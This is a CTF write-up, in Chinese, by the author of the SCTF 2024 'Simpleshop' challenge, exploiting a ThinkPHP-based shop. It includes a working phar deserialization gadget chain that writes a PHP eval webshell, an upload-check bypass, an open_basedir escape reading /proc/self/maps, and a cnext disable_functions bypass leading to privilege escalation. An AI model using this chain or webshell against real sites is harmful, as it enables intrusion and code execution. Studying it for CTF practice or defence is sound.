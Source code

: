 
---
 title: 2024 SCTF Simpleshop WP
 date: 2024-10-7 12:00:00 +0800
 categories: [CTF, PHP,Thinkphp]
 tags: [CTF,SCTF,Thinkphp反序列化,代码审计]
 ---

其实这道题主要是想考一下在Thinkphp框架下在反序列化过程中如何实现任意文件写入以及cnext绕过disable_function实现命令执行
下载源码后进行简单的代码审计可以发现这套系统是显式路由模式在router自定义了路由实现,值得注意的是和常规的PATHINFO模式有点不太一样
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011855023.png)

```
but I have disabled almost all the dangerous functions of php, and does some common php security restrictions
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011900550.png)

这里letter暗示程序开启了较为严格的disabled_function和open_basedir安全限制,比较接近真实环境的php配置,所以常见的命令执行函数是可能失效的
这里在register.html提供了前台的用户注册接口 随便注册用户
非常明显的是 前台用户可以控制的就是头像上传点 但是做了一些后缀以及内容的安全限制
php版本 <8 而且是国内常用的thinkphp框架 自然会想到打phar反序列化
可以比较明显发现Sink点 在 app/common.php 可以触发反序列化
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011914504.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011918536.png)

通过访问/api/image_base64 是会处理到get_image_base64函数当中的实现触发
紧接着是if判断 但是这里明显存在 逻辑上的问题 应该用`||` 连接 可以导致后缀的绕过 只要不为空即可绕过 判断
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020025100.png)
需要注意的是存在 `CacheService::remember` 的缓存机制
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020027257.png)
这意味着我们同一个图片只能够使用一次触发 
在put_image中触发phar反序列化 image_to_base64可以触发任意文件读取/SSRF
这里我们主要关注phar反序列化的实现 跟进put_image中
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020033511.png)
发现对phar做了置空处理 双写/大小写绕过即可
链子部分由于我们禁用了大部分命令执行函数 优先考虑实现任意文件写
仔细观察 可以发现在安装程序时 public一定时可写的
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020037538.png)
那么写文件是可以实现的
这里讲下链子部分 认真学习了各位Web大手子的WP 每位师傅的思路都很清晰
出题时没有考虑到程序用到不是原生的thinkphp框架 导致可以实现guzzle任意文件写文件 简化了写文件的过程
https://github.com/ambionics/phpggc/blob/master/gadgetchains/Guzzle/FW/1/gadgets.php 确实是我的疏忽
其他大多数Web大哥的思路 都是通过反序列化链最终实现任意代码执行(Thinkphp模板渲染处)触发到`eval` 实现 思路非常优秀 可以参考一下他们的解法
这里提供一种当时想出来比较取巧的一种思路
一般来说 thinkphp框架最后sink点大致可以分为两类 
一种是通过 __call方法实现跳板到call_user_func_array 实现rce或者接着当跳板实现其他目的
另外一种就是利用匿名类closure实现动态控制函数实现
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020106321.png)
我们可以通过控制 $closure($value, $this->data);实现我们的目的
网上的大师傅们一般都是在这个地方实现rce 比如system
但是实际上 $value`=`this->data 我们在获取value时走到第一个判断就返回$this->data的值了
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020121605.png)
相当于向system传入两个一摸一样的参数
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020111577.png)
意外的可以执行 原因在于 `system`接受一个可选参数作为返回值存储 比较巧合
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020112667.png)
这里明显可以控制两个参数 可以尝试用 file_put_contents('/var/www/public/myshell','<?php eval($_POST[1]);?>')
写入实现任意文件写 问题是我们分别如何控制每个参数的值了?
最后发现`$value`的值可以由`getData`获取
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020117870.png)
接着跟进`getRealFieldName`后 发现可以 存在`strict`属性
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020118272.png)
在三元表达式中可以令 strict=false 令严格模式为假
触发 Snake 驼峰命名转化机制 让key值实现不同
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020120713.png)
实现 进入判断2 返回relation中的值
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020122886.png)
从而实现单独控制每个参数的作用

```php
<?php  
  
  namespace think\model\concern;  
    
  trait Attribute  
  {     
      protected $strict = false;
      private $data = ["J1rry" => "<?php eval(\$_POST[1]);?>"];  
      private $withAttr = ["_j1rry" =>"file_put_contents"];  
      private $relation = ["_j1rry" => "/var/www/public/myshell.php"];  
  }  
    
  namespace think;  
    
  abstract class Model  
  {  
      use model\concern\Attribute;  
      private $lazySave;  
      protected $withEvent;  
      private $exists;  
      private $force;  
      protected $table;  
      function __construct($obj = '')  
      {  
          $this->lazySave = true;  
          $this->withEvent = false;  
          $this->exists = true;  
          $this->force = true;  
          $this->table = $obj;  
      }  
  }  
  namespace app\model\product\product;  
    
  use crmeb\traits\ModelTrait;  
  use think\Model;  
    
    
  class StoreProductCate extends Model  
  {  
  }  
    
  $a = new StoreProductCate();  
  $b = new StoreProductCate($a);  
  echo urlencode(serialize($b));  
  $phar = new \Phar('x.phar');  
  $phar->stopBuffering(); 
  $phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
  $phar->addFromString('test.txt', 'J1rrY');  
  $phar->setMetadata($b);  
  $phar->stopBuffering();
```
最终实现了 file_put_contents的效果
gzip一下绕过明文检测
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020136351.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020127049.png)
上传恶意phar文件的后
触发 phar反序列化
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020136438.png)
可以实现webshell文件的写入
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020137118.png)
这里disabled_function比较丧心病狂
```
system,exec, pcntl_exec, shell_exec, passthru, proc_get_status, checkdnsrr, getmxrr, getservbyname, getservbyport, syslog, popen, show_source, highlight_file, dl, socket_listen, socket_create, socket_bind, socket_accept, socket_connect, stream_socket_server, stream_socket_accept, stream_socket_client, ftp_connect, ftp_login, ftp_pasv, ftp_get, sys_getloadavg, disk_total_space, disk_free_space, posix_ctermid, posix_get_last_error, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix_getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_strerror, posix_times, posix_ttyname, posix_uname, assert, assert_options, proc_open, proc_close, proc_nice, proc_terminate, pcntl_fork, pcntl_signal, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, pcntl_signal_dispatch, pcntl_alarm, pcntl_get_last_error, pcntl_errno, pcntl_strerror, pcntl_sigprocmask, pcntl_sigwaitinfo, pcntl_sigtimedwait, pcntl_wait, pcntl_getpriority, pcntl_setpriority, pcntl_async_signals, mb_send_mail, putenv, error_log,str_shuffle
```
我花了很长时间专门找了一个内核版本,glibc版本可以打通iconv的docker镜像
正常官方镜像是打不通的(hub太安全了不是)
直接打cnext就可以了
先读 `/proc/self/maps`找函数地址
```
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));readfile('php://filter/convert.base64-encode/resource=/proc/self/maps');
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020146790.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020143816.png)
看到很多师傅都用 kezibei 师傅的本地化项目 可以推荐一下 
https://github.com/kezibei/php-filter-iconv/tree/main
后面就是简单的suid提权
`grep '' /flag`即可
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020152924.png)

